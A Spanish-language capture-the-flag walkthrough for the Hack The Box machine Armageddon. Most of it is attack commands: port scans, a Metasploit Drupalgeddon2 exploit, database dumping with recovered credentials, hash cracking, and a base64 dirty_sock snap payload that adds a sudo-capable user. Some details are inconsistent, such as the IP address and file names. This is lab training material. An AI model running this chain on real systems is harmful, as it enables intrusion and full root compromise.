

# HACK THE BOX MACHINE: ARMAGEDDON

------------------------

**IP MACHINE:** 10.10.10.223

**OS**: Linux.

**DIFICULTAD:** Easy.


## Requisitos

---------------------------------------------------------------------------------

1. Máquina para atacar {Kali linux, parrot...}
2. VPN para conectarse a hackthebox.
3. Querer armar un desmadre.


## Paso 1: Scanning con NMAP

---------------------------------------------------

Primero realizamos un scanning con NMAP.

```bash
nmap -sS --min-rate=5000  -Pn -p- -vvv -n 10.10.10.233
```


Obtenidos los puertos ahora detectaremos la versión y servicios que están corriendo por estos puertos

```bash
nmap -sC -sV -p80,22 10.10.10.233
```


## Paso 2: revisando la web

--------------------------------------------

Como detectamos el puerto 80 correspondiente al servicio http, veremos que nos trae la web.


Vemos que detectamos que la web tiene DRUPAL 7, la cual es una versión vulnerable y de esto se trata el siguiente paso.


## Paso 3: Buscando y ejecutando xploit

--------------------------------------------

Ya sabemos que la web contiene Drupal 7 como dijismos y esta es una versión vulnerable, muy fácil de explotar ya que msfvenom contiene un módulo para explotar esto.

```bash
use exploit/unix/webapp/drupal_drupalgeddon2
options
set rhosts 10.10.10.233
set lhost tun0
run
```


## Paso 4: Buscando settings.php

------------------------

Drupal contiene un archivo que tiene por nombre settings.php el cual contiene credenciales de la base de datos por lo tanto buscaremos dicho archivo para obtener las credenciales de la base de datos.




## Paso 5:  Explorando la base de datos

-------------------

Encontradas las credenciales de la base de datos trataremos de acceder y en el mismo one liner veremos las bases de datos que el gestor contiene.

```python
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'
```


Ahora trataremos de ver las tablas que contiene la DB drupal.

```python
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'show tables;'
```


Encontrada esta tabla llamada Users, por lo tanto veremos el contenido de este.

```python
 mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
```


## Paso 6: Haciendo fuerza bruta la hash

Como primer paso guardaremos el hash en algúnn archivo, y con la herramienta john relizaremos fuerza bruta a este.

```bash
john hash -w=/usr/share/wordlists/rockyou.txt
```


Ya tenemos la password  del user !!!!!!!!!!


## Paso 7: Accediendo por ssh y obteniendo user.txt

---------------

Como ya tenemos las credenciales de este user vamos a acceder pos ssh y obtener la flag **user.txt**

```bash
 ssh brucetherealadmin@10.10.10.233
 password: booboo
```


## Paso 8: Obteniendo root.txt

-------------------------

Para esto abusaremos del **dirty_sock** que se utiliza como se muestra en la imagen.

1. Copiaremos esta sentencia.

   ```python
   python2 -c  'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1Y1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'''+ 'A' * 4256 +'==' | base64 -d > [cualquier_nombre].snap

2. Ejecutado el one liner ejecutaremos lo siguiente.

   ```bash
   sudo /usr/bin/snap instal --devmode dedsec.snap
   su dirty_sock
   sudo -i 
   ya vemos como con solo esto obtenemos los privilegios de root, con esto ya podemos obtener root.txt
   ```
   ya vemos como con solo esto obtenemos los privilegios de root, con esto ya podemos obtener root.txt

   

